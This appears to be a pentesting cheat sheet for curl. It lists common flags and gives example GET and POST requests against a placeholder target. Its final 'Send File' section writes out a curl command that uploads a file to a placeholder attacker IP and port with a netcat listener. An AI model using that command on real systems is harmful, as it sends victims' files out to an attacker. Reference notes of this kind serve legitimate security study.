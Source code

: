```yaml
---
title: CURL
summary: A command line tool and library for transferring data with URL syntax.
description: A command line tool and library for transferring data with URL syntax.
---
```


**[https://github.com/curl/curl](https://github.com/curl/curl)**

## CURL Basis



## CURL Flags


 > 
 > **<font color=red>-s</font>**</br>
 > Silent (do not print curl info).
 > 
 > **<font color=red>-k</font>**</br>
 > Ignore HTTPS Errors.
 > 
 > **<font color=red>-i</font>**</br>
 > Show response Headers.
 > 
 > **<font color=red>-o</font> myFile**</br>
 > Save response in a file.

 > 
 > **<font color=red>-u</font> admin<font color=red>:</font>admin**</br>
 > Provide Credentials.

 > 
 > **<font color=red>-X</font> POST**</br>
 > Specifies method.
 > 
 > **<font color=red>-d</font>**</br>
 > POST data.

 > 
 > **<font color=red>-H '</font>myHeader: myValue<font color=red>'</font>**</br>
 > Set Header.

## Example GET Request with JWT


 > 
 > **<font color=red>curl '</font>http://\[TARGET_IP\]/api/book/1<font color=red>'  \\</font>**</br>
 > **<font color=red>-H 'Authorization: Bearer</font> \[JWT_TOKEN\]<font color=red>'</font>**</br>
 > Example GET request with JWT.

## CURL Example POST Request with JSON content


 > 
 > **<font color=red>curl '</font>http://\[TARGET_IP\]/api/auth/login<font color=red>' \\</font>**</br>
 > **<font color=red>-X POST \\</font>**</br>
 > **<font color=red>-H "Content-Type: application/json" \\</font>**</br>
 > **<font color=red>-d '{"</font>username<font color=red>":"</font>User<font color=red>","</font>password<font color=red>":"</font>P@ssw0rd<font color=red>"}'</font>**</br>
 > Example POST request with JSON content.

## CURL Send File


 > 
 > **<font color=red>curl</font> \[ATTACKER_IP\]<font color=red>:</font>\[ATTACKER_PORT\]<font color=red> -F 'data=@</font>fmyFile<font color=red>'</font>**</br>
 > Send myFile to an netcat listener.
